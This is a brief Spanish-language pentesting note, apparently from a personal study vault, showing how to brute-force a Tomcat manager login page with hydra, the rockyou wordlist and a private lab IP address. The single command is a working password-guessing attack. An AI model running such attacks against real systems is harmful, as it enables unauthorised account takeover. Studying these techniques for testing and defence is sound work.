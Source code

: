 Podemos atacar el panel de login de un tomcat con hydra de la siguiente forma:
![[Pasted image 20240115120606.png]]
```bash
hydra -t 64 -l tomcat -P /usr/share/wordlists/rockyou.txt -f 192.168.0.43 -s 8080 http-get /manager/html
```
![[Pasted image 20240115120749.png]]
